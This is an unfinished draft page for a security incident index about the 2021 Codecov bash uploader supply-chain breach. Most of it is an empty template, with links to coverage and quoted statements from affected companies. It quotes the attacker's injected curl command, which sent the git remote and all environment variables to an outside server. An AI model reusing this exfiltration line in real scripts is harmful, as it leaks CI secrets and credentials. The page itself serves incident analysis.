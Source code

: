 ```yaml
---
title: "Codecov"
date: 2023-04-16T07:55:47-04:00

description: "Update this with a social media and SEO synopsis"

# Set to false before publishing
draft: true

# This is not used for SEO, but allows users on the site to view incidents by keyword
tags: ["SupplyChain", "GCP"]

showToc: true # Do not change
author: "Chris Farris"
author_url: "https://www.chrisfarris.com/"

# These details are used to populate the Incident Index page.
victim: "Codecov"
incident_start_date: 2021-01-31
incident_end_date: 2021-04-01
disclosure_date: 2021-04-15
final_status: "Perpetrator Unknown"

---
```


Form a brief synopsis of the incident. No more than two to three paragraphs.

<!--more--> <!-- This separates the synopsis from the main body -->

## Incident

### Details of the Incident

### Timeline

### Attribution / Perpetrator

### Long-term impact

Other companies impacted:
* [Hashicorp](https://discuss.hashicorp.com/t/hcsec-2021-12-codecov-security-event-and-hashicorp-gpg-key-exposure/23512)
* [Twillio](https://www.twilio.com/blog/response-to-the-codecov-vulnerability)
* [Rapid7](https://www.rapid7.com/blog/post/2021/05/13/rapid7s-response-to-codecov-incident/)
* [Mercari](https://www.bleepingcomputer.com/news/security/e-commerce-giant-suffers-major-data-breach-in-codecov-incident/)
* [Monday](https://monday.com/blog/news/monday-coms-response-to-the-recent-codecov-vulnerability/)
* [Coalition](https://www.coalitioninc.com/blog/incident-report-in-response-to-the)

## Summary of coverage
* Source: [News Article One](FIXME) Month, Day, Year
* Source: [News Article Two](FIXME) Month, Day, Year
* [Press Release](FIXME) Month, Day, Year
* Codecov: [Bash Uploader Security Update](https://about.codecov.io/security-update/) April 15th, 2021
* Codecov: [Introducing Codecov’s New Uploader](https://about.codecov.io/blog/introducing-codecovs-new-uploader/) June 9th, 2021

https://snyk.io/blog/codecov-ceo-cto-share-learnings-from-breach-tsd/ <- PodCast

https://blog.gitguardian.com/codecov-supply-chain-breach/

https://www.reuters.com/technology/us-investigators-probing-breach-san-francisco-code-testing-company-firm-2021-04-16/
https://www.reuters.com/technology/codecov-hackers-breached-hundreds-restricted-customer-sites-sources-2021-04-19/ (paywall)

https://www.bleepingcomputer.com/news/security/hundreds-of-networks-reportedly-hacked-in-codecov-supply-chain-attack/
https://www.securityweek.com/codecov-bash-uploader-dev-tool-compromised-supply-chain-hack/
https://www.securityweek.com/twilio-hashicorp-among-codecov-supply-chain-hack-victims/
https://www.securityweek.com/codecov-kills-bash-uploader-blamed-supply-chain-hack/
https://www.securityweek.com/rapid7-source-code-exposed-codecov-supply-chain-attack/


## Cloud Security Implications of this incident.

>Based upon the forensic investigation results to date, it appears that there was periodic, unauthorized access to a Google Cloud Storage (GCS) key beginning January 31, 2021, which allowed a malicious third-party to alter a version of our bash uploader script to potentially export information subject to continuous integration (CI) to a third-party server. Codecov secured and remediated the script April 1, 2021. https://about.codecov.io/security-update/


> If CodeCov had required all users to disclose personal information like an email address, then reaching everyone post-breach would have been simple. Giving customers the option to utilize a social signer allowed them to keep their personal data more private, but also led to serious hurdles when urgent communication was needed. Would CodeCov’s disclosure process have looked different if notifying users was as simple as a mass email? Most likely not. As Hooten said, “I think you'll know you're doing it right, when the answer is obvious, even if the way ahead is painful or difficult.” The value structure at the core of CodeCov would have pushed its team toward transparency regardless. (https://snyk.io/blog/codecov-ceo-cto-share-learnings-from-breach-tsd/)


Holy Fuck, it took two months for someone to bother to validate the checksums on the file?
> One customer of Codecov realized that the (correct) shasum listed on Codecov’s GitHub didn’t match with the shashum (hash or “file fingerprint”, a Linux program that calculates and verifies SHA-1 hashes) of the Bash Uploader script present on the website. Hadn’t this been the case, the infiltration would have been of a different degree – nothing less than a previously known SolarWinds Sunburst attack. https://www.sisainfosec.com/blogs/codecov-breach-all-questions-answered/



Seriously, this is bad. We need to stop:
```bash
curl -sm 0.5 -d “$(git remote -v)<<<<<< ENV $(env)” https://<redacted>/upload/v2 || true
```

GitHub jumped in to help:
> On April 22, 2021 we received a notification from GitHub, a third party code hosting platform, that suspicious activity had been detected in our account related to the Codecov event, and indicating that a read-only Coalition user token used by Codecov to access our Github account may have been exposed. This immediately triggered our security incident response process, and with the help of GitHub we identified a set of GitHub repositories that had been cloned by the attacker on April 12, 2021 prior to Codecov’s public disclosure of the breach. https://www.coalitioninc.com/blog/incident-report-in-response-to-the
